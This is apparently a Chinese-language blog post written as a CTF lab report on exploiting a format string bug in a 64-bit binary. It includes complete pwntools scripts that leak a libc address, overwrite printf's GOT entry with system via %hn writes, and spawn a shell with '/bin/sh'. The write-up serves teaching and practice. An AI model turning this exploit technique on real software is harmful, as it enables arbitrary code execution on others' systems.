 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      格式化字符串漏洞实验报告 				# 标题 
subtitle:   Hello Eutopia's Blog #副标题
date:       2023-10-12 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-9.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 格式化字符串
    - PWN
    - CTF
---
```

# 格式化字符串漏洞实验报告

## 考点

- 格式化字符串漏洞利用
- 对64程序与32位程序区别的理解
- 覆写got表地址

## 实验过程

- 使用checksec, file, ldd等命令查看程序信息：

![基本信息](https://s3.bmp.ovh/imgs/2023/10/12/7c9860c6a0d86e84.png)

​		可见程序为64位，启动了DEP保护，动态链接。

- 使用patchelf修改libc文件。

![patchelf](https://s3.bmp.ovh/imgs/2023/10/12/99131d6c51a807b5.png)

- 使用ida库打开程序，反编译。

![main](https://s3.bmp.ovh/imgs/2023/10/12/e13787320dd249ee.png)

​		可以发现`printf(buf)`代码存在格式化字符串漏洞。

- 构造python脚本进行gdb调试：

```python
from pwn import *

context(arch="amd64", log_level="debug")
p = process("./format_string")

payload = flat(b"%1$p")
gdb.attach(p, "b *0x4006AD")
p.sendlineafter("Format String\n", payload)

p.interactive()
```

​		`%1$p`表示输出第一个参数的指针形式输出![gdb](https://s3.bmp.ovh/imgs/2023/10/12/355df61db3c6c417.png)

​		查看栈中情况，可以发现`_libc_stat_main+240`地址，计算得到该地址为第26个参数（64位程序需要注意前6个参数会在寄存器中）。因此要泄漏`libc`地址，可以利用`%25$p`。

- 获取libc基址后，可以获取libc中的`system`函数地址。然后可以通过修改printf函数got表的方式来使程序在执行`printf`函数转去执行`system`函数，并且以输入`"/bin/sh"`字符串达到执行函数`system("/bin/sh")`的目的。
- 由于64位程序中函数地址高位为`\x00`，因此会导致printf函数输出时截断，所以构造payload时printf函数地址需要放在末尾，然后由于64位地址如果使用`%n`直接对整体进行修改的话，会造成printf输出字符数目过大，耗时且易崩溃。所以考虑使用`%hn`来进行两字节的修改。
- 构造payload，根据system函数的地址分两次修改。

```python
# flag: tmp1 < tmp2时为True
# tmp1: 高两字节， tmp2: 低两字节
if flag == True:
    fmt = flat(b'%', tmp1, b'c', b'%10$hn', b'%', tmp2, b'c%11$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got+2, printf_got)
else:
    fmt = flat(b'%', tmp2, b'c', b'%11$hn', b'%', tmp1, b'c%10$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got, printf_got+2)
```

​		发送payload后栈情况：

![payload-gdb](https://s3.bmp.ovh/imgs/2023/10/12/05f26a39662fcbb5.png)

​		执行printf函数后，可见printf函数got表地址已被修改为system函数地址，然后输入`"/bin/sh"`字符串，即可返回shell。

![payload-gdb-1](https://s3.bmp.ovh/imgs/2023/10/12/95e9c22831c18994.png)

- 最终python脚本如下：

```python
from pwn import *

context(arch="amd64", log_level="debug")
p = process("./format_string")

# 获取read函数在libc中偏移
libc = ELF("./libc-2.23.so")
system_offset = libc.symbols['system']

# 泄漏libc地址
payload = flat(b'%25$p')
gdb.attach(p, 'b *0x4006AD')
p.sendlineafter("Format String\n", payload)
libc_addr = int(p.recvline(), 16) - 0x20840  # 0x20840
success(hex(libc_addr))

system_addr = libc_addr + system_offset
print(hex(system_addr))

flag = True
tmp = str(hex(system_addr))
print(tmp)
tmp1 = tmp[6:10]
tmp2 = tmp[10:14]
tmp1 = int(tmp1, 16)
tmp2 = int(tmp2, 16)
if tmp1 > tmp2:
    flag = False
    tmp1 = tmp1 - tmp2
else:
    flag = True
    tmp2 = tmp2 - tmp1
print(tmp1)
print(tmp2)
tmp1 = str(tmp1)
tmp2 = str(tmp2)


# 修改got表
elf = ELF("./format_string")
printf_got = elf.got["printf"]
print(printf_got)
if flag == True:
    fmt = flat(b'%', tmp1, b'c', b'%10$hn', b'%', tmp2, b'c%11$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got+2, printf_got)
else:
    fmt = flat(b'%', tmp2, b'c', b'%11$hn', b'%', tmp1, b'c%10$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got, printf_got+2)

p.send(payload)

# 发送"/bin/sh"字符串
payload = flat(b"/bin/sh")
p.send(payload)

p.interactive()
```



## 结果

![result](https://s3.bmp.ovh/imgs/2023/10/12/b3c775647ebde5c3.png)
